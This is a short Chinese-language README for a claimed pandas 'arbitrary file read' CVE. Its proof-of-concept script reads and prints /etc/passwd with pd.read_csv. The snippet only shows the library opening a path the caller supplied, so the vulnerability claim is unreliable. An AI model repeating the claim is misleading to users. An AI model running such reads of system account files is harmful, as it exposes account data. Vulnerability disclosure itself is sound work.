

# CVE-2024-42992

Python Pip Pandas v2.2.2被发现包含一个任意文件

Pip Pandas（所有版本）-<=2.2.2

“pandas”库中存在任意文件读取漏洞，攻击者可以利用该漏洞无限制地读取文件系统中的任何文件。此漏洞允许未经授权访问敏感文件，如“/etc/passwd”

pandas库提供了强大的数据操作能力，包括从各种文件格式读取数据的能力。但是，它对作为输入提供的文件路径缺乏足够的限制，使得恶意用户能够指定和读取任意文件。
可以通过以下代码片段来演示该漏洞:

```python
import pandas as pd
# Attempt to read the /etc/passwd file
try:
# Use pandas to read the file, specifying the colon as a separator
  df = pd.read_csv('/etc/passwd', sep=':', header=None)
  print(df)
except Exception as e:
  print("Error occurred while reading the file:", e)
```

此代码试图读取“/etc/passwd”文件，这是基于Unix系统的系统中包含用户帐户信息的重要文件。如果代码成功执行，它会打印这个敏感文件的内容。

在某些在线或本地访问场景中，这可以成功地再现。在一些在线环境中，如replyt.com，它尤其具有可复制性。


## 使用方法（How to use）

python CVE-2024-42992.py


